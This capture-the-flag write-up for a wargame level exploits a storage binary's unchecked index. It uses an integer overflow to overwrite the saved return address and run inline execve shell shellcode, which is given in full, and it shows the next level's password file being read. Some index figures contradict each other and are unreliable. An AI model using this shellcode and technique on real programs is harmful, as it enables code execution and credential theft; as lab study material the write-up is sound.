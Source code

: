 # Level07
This program is a storage service which store and read a number (int) in a buffer of 0x190 bytes. There's 3 commands to use it:
* store : read user input to get the index and the number to store. If the index % 3 == 0, you can't store at this index because this index is reserved for wil. If it's not the case, store the number read at the given index
* read : read user input and print the number at the given index
* quit : simply quit the program

To attack this binary, 'read' or 'store' commands are the only way to achieve this. In fact, since there's no restrictions for the value of index, we can store and read values outside of the buffer. Let's see what's outside this buffer:

```bash
for((i=0;i<150;i++)); do OUTPUT=`/home/users/level07/level07 < <(python -c "print('read\n$i\nquit')") | grep 'Input command:  Index:'` ; NB=`echo $OUTPUT | cut -d " " -f 8`; HEX=`printf %x $NB` ; echo $OUTPUT | awk '{ print $1,$2,$3,$4,$5,$6,$7,"0x'"$HEX"'"}' ; done
```

```
[...]
Input command: Index: Number at data[113] is 0x0
Input command: Index: Number at data[114] is 0xf7e45513 	(old eip main)
Input command: Index: Number at data[115] is 0x3		(int ac)
Input command: Index: Number at data[116] is 0xffffd7a4
Input command: Index: Number at data[117] is 0xffffd7b4
Input command: Index: Number at data[118] is 0xf7fd3000
Input command: Index: Number at data[119] is 0x0
[...]
```

After some deducing, we can find the old eip of main at the index 114. But we can't overwrite it because 114 % 3 == 0, this is a reserved index for wil.
However, this crappy storage use the following instructions :

```c
*(unsigned int *)(buffer + index * 4) = nb;
```

We can use an overflow with the multiplication of index * 4 which is an int. The max value of an int in decimal is 4294967296(5) so if we divide this number by 4, the number 1073741824 is also the index 0. Same logic for the number 1073741938 which is also the index 114.
Now we can overwrite old eip of main and since the stack is executable, we can put inside the buffer a shellcode. Let's find the address of the buffer.
In the function 'read_number' we can see the instruction:

```
0x80486ff <read_number+40>:  add    eax,DWORD PTR [ebp+0x8]
```

This instruction load the address of the buffer. We can find the index of this buffer with gdb:

```
gdb$
--------------------------------------------------------------------------[regs]
  EAX: 0x00000004  EBX: 0xFFFFD564  ECX: 0x0000000A  EDX: 0xF7FD08C4  o d I t s z a p c
  ESI: 0xFFFFD6FC  EDI: 0x08048D65  EBP: 0xFFFFD538  ESP: 0xFFFFD510  EIP: 0x080486FF
  CS: 0023  DS: 002B  ES: 002B  FS: 0000  GS: 0063  SS: 002B
--------------------------------------------------------------------------[code]
=> 0x80486ff <read_number+40>:  add    eax,DWORD PTR [ebp+0x8]
   0x8048702 <read_number+43>:  mov    edx,DWORD PTR [eax]
   0x8048704 <read_number+45>:  mov    eax,0x8048b1b
   0x8048709 <read_number+50>:  mov    DWORD PTR [esp+0x8],edx
   0x804870d <read_number+54>:  mov    edx,DWORD PTR [ebp-0xc]
   0x8048710 <read_number+57>:  mov    DWORD PTR [esp+0x4],edx
   0x8048714 <read_number+61>:  mov    DWORD PTR [esp],eax
   0x8048717 <read_number+64>:  call   0x8048470 <printf@plt>
--------------------------------------------------------------------------------
0x080486ff in read_number ()
gdb$ x/wx $ebp+0x8
0xffffd540:     0xffffd564
```

(0xffffd540 - 0xffffd564) / 4 = -9
The index of our buffer is -9. If we use the 'read' command without gdb, it will be 4294956436.
We can finally store our shellcode. We need to break down our shellcode in multiple int part and overflow the index when this index is reserved. To do this, we build a bash script in the 'Ressources' directory to inject all this stuff. The most importants variables to set are the following ones:
* SHELLCODE : the shellcode we used in the previous exercises -> "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
* INDEX_OLD_EIP : index in decimal for old eip -> 4294956436
* INDEX_SHELLCODE_ADDRESS : index in decimal for the shellcode address -> -9

We execute the script :
```

level07@OverRide:/home/users/level07$ /tmp/payload.bash
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
[...]
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```

The flag is **7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC**

